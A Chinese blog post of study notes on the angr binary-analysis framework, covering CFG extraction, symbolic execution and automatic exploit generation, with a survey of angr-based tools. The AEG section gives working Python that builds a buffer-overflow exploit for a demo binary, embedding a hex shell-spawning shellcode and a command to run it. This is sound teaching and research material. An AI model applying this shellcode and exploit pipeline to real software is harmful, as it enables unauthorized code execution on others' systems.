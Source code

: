 ```yaml
---
title: 符号执行相关-Angr
mathjax: true
date: 2020-06-25 10:57:49
categories:
- 符号执行
tags:
- angr
---
```


总结一下`angr`在静态分析、符号执行、fuzz和AEG（Automatic Exploit Generation，漏洞利用自动化）中的相关应用。

<!-- more -->

# Angr相关应用

## 静态分析

加载二进制文件并进行分析，相较于IDA（`Call`不为分割基本块的标准）、Clang（）等工具以函数为单位生成CFG图，Angr可以直接获取整个二进制文件的CFG图。

```py
binary = '/usr/bin/base64'
p = angr.Project(binary, auto_load_libs=False)
cfg = p.analyses.CFGFast() # 首选
# main = p.loader.main_object.get_symbol("main")
# cfg = p.analyses.CFGEmulated(fail_fast=True, starts=[main.rebased_addr])
p.entry
```

获取函数，`cfg.kb.functions`和`cfg.functions`功能一致。

```py
cfg.kb.functions.items() # 函数迭代器
f = cfg.kb.functions.get('main') # 根据函数名取函数
f = cfg.kb.functions.get_by_addr(0x402e10)

f.get_call_sites() # 函数中所有以call结尾的block地址
f.block_addrs # 函数所有基本块地址
f.size
f.name
```

获取基本块。

```py
f.blocks # 函数中所有block的迭代器，Angr的分析会丢掉一些block，必要时需要手动添加额外分析

cfg.graph.nodes() # 所有node的迭代器
node = cfg.get_node(0x403162) # 根据地址定位node
node.block # 获取node对应的block
node.successors # block所有的后续block（全局范围），递归遍历时注意陷入循环
node.predecessors
node.has_return # 包含ret

b.pp() # block对应的反汇编指令
b.instructions # 指令数量
b.capstone.insns[i].insn.insn_name() # 指令名称，如nop

# 检查block是否全为nop（用于对齐）
# all([blk.capstone.insns[i].insn.insn_name() == 'nop' for i in range(blk.instructions)])

b.size
b.addr
```

绘制CFG图（不推荐，耗时较长）。

```py
from angrutils import *
plot_cfg(cfg, "test", asminst=True, remove_imports=True, remove_path_terminator=True)
```

## 符号执行基础应用

参见[符号执行：利用Angr进行简单CTF逆向分析](https://www.freebuf.com/articles/web/150296.html)，利用程序输出特定字符串作为约束来求解对应程序输入。

注意Angr在遇到某些函数时不能正常工作，比如`_exit(0)`，而能正确处理`exit(0)`。

## AEG

[insomnihack_aeg](https://github.com/angr/angr-doc/tree/master/examples/insomnihack_aeg)，参考[基于 angr 的漏洞利用自动生成之缓冲区溢出案例分析](https://xz.aliyun.com/t/7199)。

- `demo_bin.c`：结构体中数组溢出覆盖函数指针
- `solve.py`：求解直接生成exploit（改动部分代码），覆盖PC为保存shellcode的地址

1. 初始化state和SIM。

```py
p = angr.Project(binary)
extras = {
    so.REVERSE_MEMORY_NAME_MAP, # 保留符号变量到内存地址的映射
    so.TRACK_ACTION_HISTORY # 保留路径上的state历史
}
es = p.factory.entry_state(add_options=extras) # 从入口点开始的state
sm = p.factory.simulation_manager(es, save_unconstrained=True) # 保存unconstrained state，即指令指针被用户数据或符号化数据控制
```

2. 寻找`PC`寄存器全部符号化（可被输入控制）的状态。

```py
exploitable_state = None
while exploitable_state is None:
    sm.step() # 执行一个基本块
    if len(sm.unconstrained) > 0:
        for u in sm.unconstrained:
            if all([u.solver.symbolic(u.regs.pc[i]) for i in range(u.arch.bits)]): # 该state中PC的每个bit均被符号化
                exploitable_state = u
                break
        sm.drop(stash='unconstrained')

ep = exploitable_state
```

3. 寻找一块可以存放shellcode的完全符号化内存空间，并建立全部约束。

```py
def find_symbolic_buffer(state, length):
    sym_addrs = [ ]
    for _, symbol in state.solver.get_variables('file', state.posix.stdin.ident): # 从state.posix.stdin.ident（'stdin'）寻找以file开头的符号化变量名?
        sym_addrs.extend(state.memory.addrs_for_name(next(iter(symbol.variables)))) # 符号化变量对应的内存地址

    for addr in sym_addrs:
        if all([ (addr + i) in sym_addrs for i in range(length)]): # 确保连续空间
            yield addr

shellcode = bytes.fromhex("6a68682f2f2f73682f62696e89e331c96a0b5899cd80")
# from capstone import *
# for i in Cs(CS_ARCH_X86, CS_MODE_64).disasm(shellcode, 0):
#     print('0x{}:\t{}\t{}'.format(i.address, i.mnemonic, i.op_str))

# 0x0:    push    0x68          ;   h
# 0x2:    push    0x732f2f2f    ;   s///
# 0x7:    push    0x6e69622f    ;   nib/
# 0x12:   mov     ebx, esp      ;   ebx=/bin///sh
# 0x14:   xor     ecx, ecx      ;   ecx=0
# 0x16:   push    0xb
# 0x18:   pop     rax           ;   eax=sys_execve(11)
# 0x19:   cdq                   ;   edx=0
# 0x20:   int     0x80

for buf_addr in find_symbolic_buffer(ep, len(shellcode)):
    memory = ep.memory.load(buf_addr, len(shellcode)) # 从state.mem的buf_addr处取出len(shellcode)长度的内存
    sc_bvv = ep.solver.BVV(shellcode) # 转为bitvector

    # 添加约束并检查是否可解
    if ep.satisfiable(extra_constraints=(memory == sc_bvv, ep.regs.pc == buf_addr)):
        ep.add_constraints(memory == sc_bvv) # 正式添加约束
        ep.add_constraints(ep.regs.pc == buf_addr)
        break
```

4. 求解约束并将结果写入文件。

```py
with open(filename, 'wb') as f:
    f.write(ep.posix.dumps(0)) # 求解约束并从0（标准输入）处取出求解结果
```

5. 测试exploit，可以执行shell命令，其中`cat -`表示从标准输入读取。

```sh
(cat demo_bin-exploit; cat -) | ./demo_bin
```

## 参考资料

- [angr 系列教程(一）核心概念及模块解读](https://xz.aliyun.com/t/7117)

# 基于Angr的工具

## Driller

[Driller](https://github.com/shellphish/driller)是将符号执行和fuzz结合的第一个影响较大的工作，它依赖`afl-qemu`和`angr`对二进制文件进行分析，在`afl`遇到诸如`if`等检查时使用`angr`从当前样本出发进行符号执行，根据`missed state`求解产生新状态的输入，然后采用类似`slave`模式的方法将新样本合并到`master`中。其核心流程位于`driller_main.py`，逻辑非常接简洁，个人对其关键步骤做出了[注释](https://github.com/ZanderChang/myUtilities/blob/master/driller_main_analyse.py)。

类似工作：$Driller(2016) \rightarrow QSYM(2018) \rightarrow SAVIOR(2020)$，其中`QSYM`基于`kAFL`开发，同样依赖于`intel-pt`，`SAVIOR`目前未开源。

- [Driller的安装与使用](https://www.jianshu.com/p/6e3943474f41)

## Rex

将应用程序及导致应用程序崩溃的PoC作为系统输入，判断PoC的可利用性，自动生成Exploit并导出。

- [Rex: 自动化利用引擎分析](https://xz.aliyun.com/t/7179)
- [Rex：源码分析 -- Crash Analysis](https://ma3k4h3d.top/2019/01/23/rex-crash/)
- [Exploit自动生成引擎：Rex](https://www.freebuf.com/articles/system/197392.html)

## Zeratool

针对栈溢出漏洞和格式化字符串漏洞进行自动攻击。

（代码逻辑比较清晰，可以考虑fork出来用angr8来修补一遍）

- [zeratool：基于 angr 的CTF pwn 自动化利用工具介绍](https://xz.aliyun.com/t/7224)